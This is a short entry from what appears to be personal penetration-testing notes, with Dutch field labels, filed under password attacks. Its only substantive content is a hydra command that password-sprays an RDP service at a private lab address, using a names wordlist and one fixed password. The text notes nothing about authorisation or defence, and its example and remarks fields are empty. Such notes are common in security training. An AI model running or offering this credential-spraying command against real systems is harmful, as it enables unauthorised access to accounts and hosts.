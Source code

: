 # 16.Password Attacks — Entry 2

## Categorie

RDP Attack

## Commando

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

## Omschrijving

Password spraying on RDP connection

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

